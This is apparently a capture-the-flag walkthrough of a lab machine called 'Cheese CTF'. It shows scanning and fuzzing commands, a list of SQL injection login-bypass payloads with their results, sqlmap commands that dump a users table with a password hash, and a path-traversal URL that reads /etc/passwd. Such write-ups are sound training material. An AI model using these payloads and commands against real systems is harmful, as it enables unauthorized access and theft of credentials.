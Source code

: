 # Cheese CTF


## ``nmap scan``

```
nmap -sCV 10.10.0.223
```

![image](https://github.com/user-attachments/assets/c6f79a9d-c448-47f2-9fd6-1ba6289318e0)



## ``gobuster``

```
gobuster dir -u http://10.10.0.223/ -w /home/kali/Downloads/wordlists/directory-list-2.3-medium.txt
```

![image](https://github.com/user-attachments/assets/6ad6f0aa-b52b-42d5-bc70-7a7b89d02d90)





## ``ffuf``
> you can sue ``ffuf`` to fuzz and bypass login page :

```
ffuf -w SQL_login_bypass.txt -X POST -u http://10.10.0.223/login.php -d 'username=FUZZ&password=asdf' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fw 227
```

``found``

![image](https://github.com/user-attachments/assets/24c827a5-71b9-4e89-a18a-ebebe14f79fb)


```
' OR 'x'='x'#;          [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 166ms]
'-''-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'-''#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 98ms]
'^''-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 96ms]
'^''#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 96ms]
'*''-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 95ms]
'*''#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 95ms]
'=''-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 95ms]
'=''#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 108ms]
'oR'2'LiKE'2'-- 2       [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 105ms]
'oR'2'LiKE'2'#          [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 117ms]
' UniON SElecT 1,2,3-- 2 [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 97ms]
' UniON SElecT 1,2,3#   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 97ms]
'UniON(SElecT(1),2,3)-- 2 [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 93ms]
'UniON(SElecT(1),2,3)#  [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 106ms]
'||2-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 94ms]
'||'2'||'               [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 93ms]
'||2#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 94ms]
'||2||'                 [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 99ms]
'||'2'='2'||'           [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'||2=2-- 2              [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 93ms]
'||2=2#                 [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'||2=2||'               [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'||true||'              [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 114ms]
'||true-- 2             [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 114ms]
'||'2'LiKE'2'-- 2       [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 98ms]
'||'2'LiKE'2'#          [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 98ms]
'||true#                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 114ms]
'||'2'LiKE'2'||'        [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 96ms]
'||(2)LiKE(2)-- 2       [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 97ms]
'||(2)LiKE(2)#          [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'||(2)LiKE(2)||'        [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 95ms]
%A8%27||1-- 2           [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 136ms]
%bf'||1-- 2             [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 133ms]
%8C%A8%27||1-- 2        [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 133ms]
:: Progress: [804/804] :: Job [1/1] :: 334 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```





----
----

<details>
   <summary>inject manual</summary>

> first try ``' or 1=1; -- -`` but not work

``try union``

```
' union select 1 -- -
' union select 1,2 -- -
' union select 1,2,3 -- -
```
and Boom!!! 

it work on 3 columns and bypassed login 

> if you try to extract data from this and appear database content it will not apper ✅ SQLi exists, ❌ but data can’t be extracted via this page.

</details>

----
----


## ``SQLmap``

```
sqlmap -u "http://10.10.0.223/login.php" --data="username=admin&password=pass" --level=5 --risk=3 --threads=5 --dbs
```

``found databases``

```
available databases [2]:
[*] information_schema
[*] users
```

![image](https://github.com/user-attachments/assets/826eb9e0-20b7-4a08-a192-213def942148)


``find tables in users database``

```
sqlmap -u "http://10.10.0.223/login.php" --data="username=admin&password=pass" -D users --tables
```

``found users table``

![image](https://github.com/user-attachments/assets/36fa6cb3-89fb-493b-8c00-afb08453340c)


``get content of users``

```
sqlmap -u "http://10.10.0.223/login.php" --data="username=admin&password=pass" -D users -T users --dump
```

![image](https://github.com/user-attachments/assets/dddc5c59-a882-4c82-b594-6f474d955d26)

```
retrieved: 5b0c2e1b4fe1410e47f26feff7f4fc4c
retrieved: comte
```
```
+----+----------------------------------+----------+
| id | password                         | username |
+----+----------------------------------+----------+
| 1  | 5b0c2e1b4fe1410e47f26feff7f4fc4c | comte    |
+----+----------------------------------+----------+
```


> ### tryed to hash password but not found crack to it so try to found another way to get in system


## ``path traversal``

after bypass login page found :


![image](https://github.com/user-attachments/assets/51963ef7-59a5-4c25-8bfa-81317651aa83)

try to make url like ``http://10.10.0.223/secret-script.php?file=php://filter/resource=../../../../etc/passwd`` found

![image](https://github.com/user-attachments/assets/9231f3b9-6553-4b70-b9db-40bb92ee361a)

Boom !!!

> notice we found in /etc/passwd our user we found ``comte``





